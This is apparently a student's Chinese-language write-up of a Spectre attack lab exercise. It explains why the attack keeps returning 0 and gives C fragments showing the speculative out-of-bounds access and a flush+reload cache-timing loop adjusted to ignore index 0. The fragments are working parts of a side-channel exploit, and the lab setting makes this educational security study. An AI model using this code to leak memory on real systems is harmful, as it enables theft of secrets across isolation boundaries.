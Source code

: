 #### a）

> You may observe that when running the code above, the one with the highest score is very likely to be scores[0]. Please figure out why, and fix the code above, so the actual secret value (which is not zero) will be printed out.

直接编译`SpectreAttackImproved.c`后，发现得到的结果是0：

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012312991.png" alt="image-20220410123833997" style="zoom:67%;" />

因为`spectreAttack`中经常会因为`restrictedAccess`的返回值是0，导致array[0]一定会被访问：

```c
  // Ask victim() to return the secret in out-of-order execution.
  s = restrictedAccess(index_beyond);
  array[s * 4096 + DELTA] += 88;
```

```c
// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower)
    return buffer[x];
  else
    return 0;	// restrictedAccess(index_beyond)返回0
}
```

思路：在`reloadSideChannelImproved`函数中忽略0。【若最后的max=0，说明是true 0的情况】

```c
void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;

  for (i = 1; i < 256; i++)	// 从1开始，scores[i]++时忽略0
  {
    addr = &array[i * 4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD)
      scores[i]++; /* if cache hit, add 1 for this value */
  }
}
```

截图：

![image-20220410144057695](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012312507.png)

